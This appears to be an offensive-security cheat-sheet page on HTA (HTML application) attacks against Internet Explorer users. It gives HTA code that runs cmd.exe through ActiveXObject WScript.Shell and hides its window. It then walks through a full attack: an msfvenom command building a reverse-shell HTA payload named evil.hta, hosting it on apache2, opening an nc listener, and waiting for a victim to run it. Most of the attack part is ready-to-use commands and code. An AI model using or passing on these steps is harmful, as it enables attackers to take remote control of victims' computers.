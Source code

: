 # HTA

#### ️HTA application

> Files with the extension `.hta` are automatically executed by the **Internet Explorer** (IE) browser as HTML application (via **`mshta.exe`**).

We can use `MSFvenom` to generate a HTA malicious application [Link](https://github.com/amirr0r/notes/blob/master/Infosec/boot2root-cheatsheet.md#msfvenom)

&#x20;If we visit a URL containing an HTML application, IE will trigger two popups. One that asks us if we want to open or save the file. Another security warning to inform the application will be opened outside the Protected mode.

Example [Windows Script Host Shell object](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/windows-scripting/aew9yb99\(v=vs.84\)) opening **calc.exe** via [ActiveXObjects](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Microsoft\_Extensions/ActiveXObject):

```html
<html>
<head>
</head>
<body>
<script>
    var c = 'cmd.exe'
    new ActiveXObject('WScript.Shell').Run(c);
</script>
<script>
    self.close();
</script>
</body>
</html>
```

The ActiveXObjects provides access to operating system commands through Windows Script Host (WScript). The self.close() function hides the window. An alternative HTA code can be the following:

```markup
<html>
<head>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>
	self.close();
</script>
</body>
</html>
```

### HTA Attack Scenario

Create an msfvenom HTA payload using powershell:

```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f
hta-psh -o /var/www/html/evil.hta
```

Now randomized the string:

```
sudo cat /var/www/html/evil.hta
```

Parameters and Arguments:

* \-nop: is shorthand for -NoProfile, which instructs PowerShell not to load the PowerShell user profile.
* \-w hidden (shorthand for -WindowStyle hidden) to avoid creating a window on the user’s desktop.
* \-e flag (shorthand for -EncodedCommand ) allows us to supply a Base64 encoded PowerShell script directly as a command line argument.

Host your HTA application with apache2, python, or any other web service:

```
sudo systemctl start apache2
```

Set up a listener on your host:

```
nc -lnvp <YOUR_PORT>
```

Wait for the victim to navigate to your HTA application and allow the program to run. Once the program ran on the victim machine, you will receive a reverse shell.
